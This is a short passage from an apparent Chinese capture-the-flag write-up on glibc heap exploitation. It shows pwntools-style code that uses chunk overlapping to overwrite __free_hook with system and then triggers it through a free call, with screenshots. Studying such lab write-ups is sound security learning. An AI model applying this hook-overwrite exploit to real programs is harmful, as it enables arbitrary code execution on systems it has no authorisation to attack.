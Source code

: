 ```plain
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
```

利用chunk Overlapping然后将修改地址的索引改成free\_hook,这样就可以直接改hook了

[![](assets/1701606615-3536d63324cdf3e36e3f7f8548bd046a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213355-9fb89d62-83bb-1.png)

```plain
edit(4,p64(system))
delete(0)
```

直接将free\_hook改成system，然后free(0)就可以

[![](assets/1701606615-f2dc06e9d2ebb213f5c2b2307795b06f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213419-adb566de-83bb-1.png)
